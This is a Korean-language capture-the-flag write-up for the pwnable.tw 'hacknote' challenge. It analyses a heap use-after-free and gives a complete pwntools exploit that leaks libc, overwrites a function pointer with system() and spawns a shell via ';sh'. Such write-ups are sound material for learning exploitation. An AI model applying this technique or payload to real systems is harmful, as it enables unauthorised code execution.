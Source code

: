 # [summary]
- free unsorted bin 시 잔존한 main_arena+48을 통해 libc leak
- uaf 취약점을 통한 eip control

# analysis
전형적인 uaf heap 문제임다.
```css
m444ndu@ubuntu:~/pwntw/hacknote$ checksec hacknote 
[*] '/home/m444ndu/pwntw/hacknote/hacknote'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
  
  

## add_note()
```c
  if ( note_num <= 5 )
  {
    for ( i = 0; i <= 4; ++i )
    {
      if ( !ptr[i] )
      {
        ptr[i] = malloc(8u);
        if ( !ptr[i] )
        {
          puts("Alloca Error");
          exit(-1);
        }
        *(_DWORD *)ptr[i] = sub_804862B;
        printf("Note size :");
        read(0, &buf, 8u);
        size = atoi(&buf);
        v0 = ptr[i];
        v0[1] = malloc(size);
        if ( !*((_DWORD *)ptr[i] + 1) )
        {
          puts("Alloca Error");
          exit(-1);
        }
        printf("Content :");
        read(0, *((void **)ptr[i] + 1), size);
        puts("Success !");
        ++note_num;
        return __readgsdword(0x14u) ^ v5;
```
일단 노트 추가는 5개밖에 못하고, `ptr[i]`를 통하여 노트를 관리합니당
`malloc()`을 총 두 번 사용해서 노트를 추가하는데, 첫 번째 `chunk`는 아래의 `sub_804862b()` 함수의 주소 4바이트와 문자열이 저장될 `heap 영역`의 주소 4바이트가 저장됩니다. `두 번째 chunk`는 사용자의 입력만큼의 크기를 갖는 `heap 영역`에 입력받은 `Content`를 저장합니다.
  
    
    
## sub_804862b()
```c
int __cdecl sub_804862B(int a1)
{
  return puts(*(const char **)(a1 + 4));
}
```

  
  
## print_note()
```c
  printf("Index :");
  read(0, &buf, 4u);
  index = atoi(&buf);
  if ( index < 0 || index >= note_num )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( ptr[index] )
    (*(void (__cdecl **)(void *))ptr[index])(ptr[index]);
  return __readgsdword(0x14u) ^ v3;
  ```
`print_note()` 함수에서 note의 값을 출력해주는 부분은 위의 `if( ptr[index] ){...}`인데, 다음과 같이 구현되어 있습니다.
```c
.text:08048915                 mov     eax, [ebp+index]
.text:08048918                 mov     eax, ds:ptr[eax*4]
.text:0804891F                 test    eax, eax
.text:08048921                 jz      short loc_8048942
.text:08048923                 mov     eax, [ebp+index]
.text:08048926                 mov     eax, ds:ptr[eax*4]
.text:0804892D                 mov     eax, [eax]
.text:0804892F                 mov     edx, [ebp+index]
.text:08048932                 mov     edx, ds:ptr[edx*4]
.text:08048939                 sub     esp, 0Ch
.text:0804893C                 push    edx
.text:0804893D                 call    eax
.text:0804893F                 add     esp, 10h
```
`*ptr[index]` 값을 주소로 하여 함수를 실행시키며, 인자로는 `ptr[index]`를 사용합니다.
기존에는 위의 `sub_804862b()`가 `*ptr[index]`의 값으로 있기 때문에, `puts(*(ptr[index]+4))`가 실행되는 것임미다.
`heap`을 요로저러해서 `*ptr[index]` 값을 바꿔준다면 `eip` 컨트롤이 가능하기 때문에, 해당 취약점을 메모해둡시당.

  
  
## delete_note()
```c
unsigned int delete_note()
{
  int v1; // [esp+4h] [ebp-14h]
  char buf; // [esp+8h] [ebp-10h]
  unsigned int v3; // [esp+Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  printf("Index :");
  read(0, &buf, 4u);
  v1 = atoi(&buf);
  if ( v1 < 0 || v1 >= note_num )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( ptr[v1] )
  {
    free(*((void **)ptr[v1] + 1));
    free(ptr[v1]);
    puts("Success");
  }
  return __readgsdword(0x14u) ^ v3;
}
```
이 함수는 그냥 `free`만 해줍니다. `free` 한 뒤 초기화를 하지 않습니다.

해당 문제에서 가장 극혐은 5개밖에 노트를 추가할 수 없다는 점인 것 같습니다.(+제가 푼 풀이에서만...)
한정된 횟수로 **leak**과 `eip` **컨트롤**을 하기 위해서는 열심히 짱구를 굴려야합니다. 다음과 같이 진행하면 될 것 같습니당. 
```
add(index=0,size=8)
add(index=1,size=256)
add(index=2,size=8)
delete(index=0)
delete(index=1)
delete(index=2)
add(index=3,size=256)
add(index=4,size=8)
==============================================================
index 0 {- size 8 -}                 index 3 {- size 8 -}  
      0 {- size 8 -}                 index 4 {- size 8 -}                                                                 
index 1 {- size 8 -}                       4 {- size 8 -}  
      1 {-- size 256 --}     =>            3 {-- size 256 --}
index 2 {- size 8 -}        
      2 {- size 8 -}      
```

위처럼 진행한다면, `index 3`에서 `main_arena + 48`를 **leak** 할 수 있고, `index 4`의 `content` 입력을 통해 `*ptr[1]`의 실행 함수 값을 바꿔줄 수 있읍니다.

아쉽게도 `one_gadget` 조건이 맞지 않았기 때문에, `system()` 함수와 `"/bin/sh"` 인자를 통해 익스를 할 수 밖에 없는 것 같습니다.

`*ptr[i]`에 `system()` 함수의 주소를 집어넣고, `ptr[i]`를 인자로 갖기 때문에, `ptr[i]+4` 값을 `";sh"`로 준다면 익스가 가능합니다. (ritsec ctf 2018에 이렇게 풀 수 있는 문제가 나왔던 거로 기억합니당) 


# exploit
```python
#! /usr/bin/python
from pwn import *

def add(size,data):
    r.sendlineafter('Your choice :','1')
    r.sendlineafter('Note size :',str(size))
    r.sendlineafter('Content :',data)

def delete(index):
    r.sendlineafter('Your choice :','2')
    r.sendlineafter('Index :',str(index))

def print_note(index):
    r.sendlineafter('Your choice :','3')
    r.sendlineafter('Index :',str(index))


#r = process('./hacknote', env={'LD_PRELOAD':'./libc_32.so.6'})
r = remote('chall.pwnable.tw',10102)
#context.log_level='debug'
#gdb.attach(r,'b* 0x080488A5')

add(8,'AAAA')    # 0
add(256,'BBBB')  # 1
add(8,'AAAA')    # 2
delete(0)
delete(1)
delete(2)

add(256,'BBB')   # 3


####### leak libc #######
print_note(3)
r.recvuntil('BBB\n')
leak = u32(r.recv(4))
libc_base = leak - 1779632+ 0x2000
success('libc_base = '+hex(libc_base))

system_addr = libc_base + 239936

payload = p32(system_addr)
payload += ';sh'

add(8,payload)     # 4

print_note(1)

r.interactive()
```
